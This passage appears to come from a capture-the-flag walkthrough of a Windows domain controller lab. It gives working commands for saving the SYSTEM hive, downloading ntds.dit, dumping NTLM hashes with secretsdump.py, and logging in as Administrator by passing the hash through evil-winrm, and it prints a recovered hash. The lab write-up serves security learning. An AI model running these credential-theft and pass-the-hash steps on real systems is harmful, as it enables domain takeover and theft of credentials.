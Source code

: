 `reg save HKLM\SYSTEM c:\temp\system.hive`

- win-rm allows us to simply download: `ntds.dit` and `system.hive` like so: `download ntds.dit` & `download system.hive`

## Dumping Hashes using "secretsdump.py"

`secretsdump.py -system system -ntds ntds.dit LOCAL`

**Hash:** `Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::`

## Spawning an interactive shell (evil-winrm)

````
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee

*Evil-WinRM* PS C:\Users\Administrator\Documents>

````
